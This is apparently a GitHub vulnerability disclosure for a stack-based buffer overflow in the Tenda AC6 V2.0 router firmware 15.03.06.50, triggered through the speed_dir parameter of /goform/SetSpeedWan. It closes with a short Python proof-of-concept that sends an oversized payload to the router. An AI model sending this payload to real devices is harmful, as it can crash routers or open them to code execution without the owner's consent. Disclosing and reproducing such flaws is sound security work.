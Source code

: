 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 V2.0 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/SetSpeedWan`. When `speed_dir` is specified with excessive data, the buffer overflow occurs during string concatenation operations.

![alt text](image-2.png)
## poc
![alt text](image.png)
![alt text](image-1.png)


## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'speed_dir': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0xfa * b'A'
send_payload("http://10.10.10.1/goform/SetSpeedWan", payload)
```
